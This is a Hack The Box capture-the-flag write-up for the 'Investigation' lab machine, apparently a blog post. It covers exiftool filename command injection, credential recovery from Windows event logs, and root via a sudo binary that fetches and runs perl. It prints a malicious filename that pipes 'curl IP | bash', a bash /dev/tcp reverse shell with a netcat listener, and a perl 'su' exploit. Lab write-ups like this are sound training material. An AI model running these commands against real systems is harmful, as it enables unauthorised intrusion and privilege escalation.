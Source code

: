 ```yaml
---
title: "Hackthebox Investigation"
date: 2023-01-25T14:44:57+01:00
draft: false
---
```


On Investigation we exploit an exiftool vulnerability from file upload that allow command execution and to gain a reverse shell.
Next we get credentials for one user from a mail text message. Finally, for root we have to do a little bit
of binary exploitation using ghidra.
<!--more-->

## Nmap

As usual we start we some recon :

```
nmap 10.129.139.235
Nmap scan report for 10.129.139.235
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
```

## HTTP:80

![image text](/investigation_htb_web.png)

Jumping on the website we see a free service which allow us to upload image file (png/jpg) :

![image text](/investigation_htb_upload.png)

The output allows us to view exiftool's version number.

![image text](/investigation_htb_exif.png)

The version is 12.39 and it seems that it's vulnerable to command injection through a crafted filename. 
If the filename passed to exiftool ends with a pipe character `|` and exists on the filesystem,
then the file will be treated as a pipe and executed as an OS command.

The proof of concept can be found **[here](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)**.
Now all we have to do is to rename our image file with one linux command add the pipe at the end : 

```
mv image.png 'curl IP | bash |'
```
Next we need to create and index.html file, put a bash reverse shell in it and host our file using python :

```
cat index.html
bash -i >& /dev/tcp/IP/6666 0>&1
```
```
python3 -m http.server 80
```

Setup a netcat listener and let's go :

```bash
nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.139.235
www-data@investigation:~/uploads/1674415004$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## **Shell as smorton**

There is a Windows Event Logs message file owned by smorton in `usr/local/investigation`.
Transfer the mail on our machine and open it with outlook : 

![image text](/mail_investigation.png)

We can see that there is a zip file in attachment. After unziping it, I got an EVTX file, a Windows XML EventLog file.
To analyze the file I choose : **[EVTX](https://github.com/omerbenamram/evtx)**.

```bash
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ ./evtx_dump-v0.8.0-x86_64-unknown-linux-gnu -f output_evtx -o json security.evtx
```
The output contains a lot of rows so lets filter it : 

```bash
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ grep TargetUserName evtx_ouput | sort -u > sorted.txt
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ head -n 11 sorted.txt                                
      \"TargetUserName\": \"-\",
      \"TargetUserName\": \"aanderson\",
      \"TargetUserName\": \"AAnderson\"
      \"TargetUserName\": \"AAnderson\",
      \"TargetUserName\": \"Administrator\"
      \"TargetUserName\": \"Administrators\"
      \"TargetUserName\": \"AWright\"
      \"TargetUserName\": \"Backup Operators\"
      \"TargetUserName\": \"BMay\"
      \"TargetUserName\": \"DefaultAccount\"
      \"TargetUserName\": \"Def@ultf0r3nz!csPa$$\",
```
I noticed `Def@ultf0r3nz!csPa$$` it seems like a password so let's try it to ssh to smorton user : 

![image text](/ssh_investigation.png)

And it works, let's switch to the root part now.

## **Shell as root**

By looking at privileges sudoers we can see a binary called binary : 

```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
smorton@investigation:~$

```
With the help of ghidra we can open the binary and open the main function : 

![image text](/ghidra_investigation.png)

In one part of the code we can see that verifies that the total of parameters is 3, means that in addition to the binary we need another 2 parameters :

```bash
if (param_1 != 3) {
  puts("Exiting... ");
  exit(0);
}
```
Also elsewhere we can see that compares the uid is equal to 0 (root who runs it), if the condition fails does exactly the same as before

```bash
_Var1 = getuid();
if (_Var1 != 0) {
  puts("Exiting... ")
  exit(0);
}
```

Elsewhere we can see that verifies that the second parameter is `lDnxUysaQn` if the condition is not met also does the same as before : 

```bash
iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
if (iVar2 != 0) {
  puts("Exiting... ");
  exit(0);
}
```

If the conditions are met use the curl function to read a file from a web resource that we can specify in the first parameter and save it in the open file :

```bash
puts("Running... ");
__stream = fopen(*(char **)(param_2 + 0x10),"wb");
uVar3 = curl_easy_init();
curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
curl_easy_setopt(uVar3,0x2711,__stream);
curl_easy_setopt(uVar3,0x2d,1);
iVar2 = curl_easy_perform(uVar3);
```
If at this point you follow the stream, you will run the saved web resource file with perl : 

```bash
if (iVar2 == 0) {
  iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
  __s = (char *)malloc((long)iVar2 + 1);
  snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
  iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
  __s_00 = (char *)malloc((long)iVar2 + 1);
  snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
  fclose(__stream);
  curl_easy_cleanup(uVar3);
  setuid(0);
  system(__s_00);
  system("rm -f ./lDnxUysaQn");
  return 0;
}
```
To exploit this, we create a perl file that runs 'su' and share it

```bash
cat exploit.pl
exec("su")

sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Finally we run the binary with the arguments we know we need and when we run its launches a bash as root :

```bash
smorton@investigation:~$ sudo binary http://10.10.14.84/exploit.pl lDnxUysaQn
Running... 
root@investigation:~# id
uid=0(root) gid=0(root) groups=0(root)
````

